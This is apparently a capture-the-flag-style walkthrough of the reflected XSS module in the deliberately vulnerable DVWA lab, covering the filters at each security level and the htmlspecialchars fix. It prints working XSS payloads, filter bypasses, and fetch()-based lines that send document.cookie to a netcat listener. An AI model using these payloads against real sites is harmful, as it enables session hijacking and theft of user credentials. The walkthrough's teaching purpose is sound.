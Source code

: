 # XSS (Reflected)

## About

> "Cross-Site Scripting (XSS)" attacks are a type of injection problem, in which malicious scripts are injected into the otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application using input from a user in the output, without validating or encoding it.
> 
> An attacker can use XSS to send a malicious script to an unsuspecting user. The end user's browser has no way to know that the script should not be trusted, and will execute the JavaScript. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by your browser and used with that site. These scripts can even rewrite the content of the HTML page.
> 
> Because its a reflected XSS, the malicious code is not stored in the remote web application, so requires some social engineering (such as a link via email/chat).

Source: DVWA Documentation

## Low Security
The page is asking for an input of our name and then is reflected back on the page. So if we type `Harry` the application will say `Hello Harry`.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/XSS(Reflected)/!images/xssr1.png?raw=true">
</p>

But if we type instead an XSS payload, then this will happen:

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/XSS(Reflected)/!images/xssr2.png?raw=true">
</p>

The payload used: `Hacked"<script>alert(1)</script>`.<br/>
A lot of XSS payloads can be found online, some will work, some will not, depends on the filters implemented. The idea is that instead of input some valid text, we input some javascript that will be executed by the application.<br/>
Because our input is also reflected in the URL, we can send it to anyone and once is accessed, the script will be executed.<br/>
The URL: `http://localhost/DVWA/vulnerabilities/xss_r/?name=Hacked%22%3Cscript%3Ealert%281%29%3C%2Fscript%3E#`.<br/>

In our payload, the impact is not harmful, we only triggered an alert box with number 1. This payload is usually used to confirm the presence of an XSS attack.<br/>
But more dangerous things can be done, for example rewriting the source code in order to ask the user to insert their password to continue. But the password is sent to the attacker.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/XSS(Reflected)/!images/xssr3.png?raw=true">
</p>

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/XSS(Reflected)/!images/xssr4.png?raw=true">
</p>

The source code:
```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?> 
```
For this level, we have no restrictions implemented.

Let's also solve the objective of the challenge, which is: `Steal the cookie of a logged in user.`.<br/>
We can use the following payload: `<script>fetch('http://127.0.0.1:4444?cookie=' + btoa(document.cookie) );</script>`.
This will send the cookie of the current user to the attacker address, in a base64 format. In order to listen for this message, we can start a listener with netcat: `nc -lvnp 4444`.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/XSS(Reflected)/!images/xssr6.png?raw=true">
</p>

## Medium Security
For Medium level we have this filter implemented:
```php
$name = str_replace( '<script>', '', $_GET[ 'name' ] ); 
```
This is not enough, because we can easily bypass it using uppercase letters: `<sCRipt>alert('XSS')</sCRipt>`.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/XSS(Reflected)/!images/xssr5.png?raw=true">
</p>

## High Security
For High level we have this filter implemented:
```php
$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] ); 
```
Again, this is not a good implementation, because there are many XSS payloads that are not using the `<script>` tag.<br/>
The vulnerability can be executed using: `"<img src=x onerror=alert('XSS')>`. This payload will trigger an error with alert box, if the source of the image is not found.

For the objective of the challenge, we can use a netcat listener on port 4444 and the following payload: `<img src=x onerror='fetch("http://127.0.0.1:4444/?cookie=" + document.cookie)'>`.

## Impossible Security
Source code:
```php
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```
For the Impossible level, we have Anti-CSRF token implemented and our input is verified with `htmlspecialchars()` function. This function will convert the special HTML characters in order to not be interpreted as HTML valid code.<br/>
For example `&` becomes `&amp;`, `"` becomes `&quot;`, and so on.<br/>
Much more, in Impossible level the `X-XSS-Protection` header is not set to 0 anymore. This header stops pages from loading when detects reflected cross-site scripting (XSS) attacks. Nowadays `Content-Security-Policy` header is preferred instead.<br/>
In this case, we will not be able to use any special characters to alterate the application's code. 